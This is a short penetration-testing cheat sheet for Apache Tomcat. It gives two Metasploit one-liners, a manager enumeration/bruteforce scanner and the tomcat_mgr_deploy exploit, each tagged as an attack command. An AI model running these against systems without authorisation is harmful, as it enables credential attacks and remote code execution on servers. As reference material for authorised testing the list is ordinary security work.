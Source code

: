 # Tomcat 

% tomcat

## tomcat manager bruteforce
#plateform/linux #target/remote #cat/ATTACK/BRUTEFORCE-SPRAY 
```
msfconsole -x "use auxiliary/scanner/http/tomcat_enum"
```

## tomcat deploy
#plateform/linux #target/remote #cat/ATTACK/EXPLOIT 
```
msfconsole -x "use exploit/multi/http/tomcat_mgr_deploy"
```
